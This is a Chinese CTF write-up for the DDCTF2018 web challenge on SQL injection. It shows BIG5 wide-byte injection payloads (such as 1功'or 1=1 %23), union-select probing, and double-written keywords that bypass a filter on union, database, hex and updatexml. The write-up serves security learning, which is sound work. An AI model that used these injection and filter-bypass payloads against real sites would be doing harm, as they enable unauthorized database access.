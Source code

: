 ```yaml
---
title: DDCTF2018-注入的奥妙
date: 2018-04-29 00:00:00
categories:
- CTF/Web
tags: DDCTF 宽字节注入 SQL注入 BIG5编码 php反序列化 MVC
---
```


题目链接：[http://116.85.48.105:5033/5d71b644-ee63-4b11-9c13-da3c4ac35b8d/well/getmessage/1](http://116.85.48.105:5033/5d71b644-ee63-4b11-9c13-da3c4ac35b8d/well/getmessage/1)

## Big5编码

查看网页源代码发现如下链接：[https://wenku.baidu.com/view/bd29b7b3fd0a79563c1e72f7.html](https://wenku.baidu.com/view/bd29b7b3fd0a79563c1e72f7.html)

打开是台湾BIG5编码表，url中加个单引号发现提示，最后拼接的参数是 : 1\'，猜测是big5宽字节注入，`\`的ascii码是5c，找到BIG5编码中后两位是5C的字，随便找一个`功`，尝试如下payload，成功返回所有数据

```SQL
1功'or 1=1 %23
```


## 联合查询注入

既然是查询首先尝试联合查询

```SQL
/1功'order by 3 %23
```

三个字段

```SQL
/1功'union%20select%201,2,3%23
```

返回提示：

```SQL
最后拼接的参数是 : 1�\\' select 1,2,3#
~~~如果自己拼接的参数显示有问题了，试试浏览器的页面编码设置~~~
```

貌似是过滤了union，尝试双写

```SQL
/1功'uniounionn%20select%201,2,3%23
```

### 双写绕过

尝试获取数据库名，表名，列名信息，发现过滤了如下字符串，尝试双写绕过即可

- union
- database
- hex
- unhex
- updatexml
